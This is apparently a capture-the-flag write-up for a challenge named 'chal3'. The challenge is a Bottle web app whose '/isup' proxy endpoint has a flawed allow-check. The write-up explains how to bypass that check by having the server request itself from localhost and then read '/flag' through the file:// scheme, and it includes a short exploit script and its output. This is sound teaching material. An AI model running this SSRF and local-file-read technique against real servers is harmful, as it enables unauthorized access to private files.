 # chal3

## Description

We are given a URL to a website which displays its own source:

```python
import string
import urllib2
from bottle import route, run, post, get, request

@get('/')
def index():
    with open(__file__) as f:
        return '<pre>' + "".join({'<':'&lt;','>':'&gt;'}.get(c,c) for c in f.read()) + '</pre>'


@post('/isup')
@get('/isup')
def isup():
    try:
        name = request.params.get('name', None)
        is_remote = request.environ.get('REMOTE_ADDR') != '127.0.0.1'
        is_valid = all(x in name for x in ['http', 'kuchenblech'])
        if is_remote and not is_valid:
            raise Exception
        result = urllib2.urlopen(name).read()
        return result
    except:
        return 'Error'

run(host='0.0.0.0', server="paste", port=8080, reloader=False)
```

The flag is supposed to be found in `/flag`.

## Analysis

The server is a simple proxy which will relay requests to URLs it finds valid. For a URL to be found valid it has to satisfy either of two requirements:

1. It has to come frome `127.0.0.1` - the local machine.
2. It has to contain the strings `http` and `kuchenblech` inside it.

The server also uses an older version of `urllib` which can resolve URLs using the `file://` scheme by default.

## Solution

The `file://` scheme doesn't support query parameters or other ways to include arbitrary text in the URL so the only way to request `file:///flag` is to make that request come from `localhost`. This is possible by fulfilling the second requirement and making the server send a request to itself.

A simple script can be used to aid with encoding request parameters:

```python
#!/usr/bin/env python3
import requests
import sys

path = sys.argv[1]

r = requests.get(
    f"http://108.61.211.185/isup",
    params={
        "name": f"http://localhost:8080/isup?kuchenblech&name=file://{path}"
    }
)

print(r.text)
```

```
$ ./fetch.py /flag
junior-double_or_noth1ng
```

